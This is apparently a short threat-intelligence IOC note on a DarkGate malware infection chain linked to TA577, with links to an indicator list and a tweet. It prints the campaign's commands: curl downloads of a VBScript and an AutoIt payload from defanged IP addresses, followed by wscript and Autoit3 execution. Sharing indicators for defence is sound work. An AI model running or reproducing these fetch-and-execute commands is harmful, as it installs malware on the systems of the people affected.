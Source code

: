 
#DarkGate - #TA577 - url > .zip > .lnk > curl > .vbs > curl > au3 > .exe

cmd /c MFGT.lnk

curl http://136.244.92.]148/rdFR2/GbB -o fjw.vbs

wscript fjw.vbs

cmd /c mkdir c:\rqdp

curl http://81.19.135.]17:2351 -o nvptjf.au3

Autoit3.exe  nvptjf.au3

IOC's
https://github.com/pr0xylife/DarkGate/blob/main/DarkGate_01.10.2023.txt

### url > .zip > lnk > .vbs > .exe

[#DarkGate](https://twitter.com/hashtag/DarkGate?src=hashtag_click) - [#TA577](https://twitter.com/hashtag/TA577?src=hashtag_click) - url > .zip > lnk > .vbs > .exe
https://twitter.com/Cryptolaemus1/status/1708869147688419507


![proxy everywhere](/assets/images/proxy4.png)
